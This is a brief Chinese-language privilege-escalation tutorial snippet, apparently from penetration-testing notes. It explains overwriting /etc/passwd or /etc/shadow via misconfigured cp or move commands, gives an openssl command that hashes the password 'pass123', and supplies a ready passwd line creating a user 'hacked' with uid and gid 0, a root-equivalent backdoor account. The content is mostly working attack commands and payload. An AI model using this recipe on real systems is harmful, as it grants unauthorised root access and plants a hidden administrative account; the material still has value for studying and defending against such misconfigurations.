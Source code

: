 `cp` 和 `move` 命令的核心理念就是覆盖`/etc/passwd`或`/etc/shadow `文件，从而获取 root 权限

使用 openssl 可以生成 linux 密码 hash：
```
#生成密码为pass123的 hash

openssl passwd -1 -salt ignite pass123
>> $1$ignite$3eTbJm98O9Hz.k1NTdNxe1
```
构造 passwd 中的用户信息：
```
# 0:0表示 uid 和 gid 都是 0，等同于 root 用户，这样我们切换到该用户后，实际权限就是 root
# hacked:pass123

hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
```
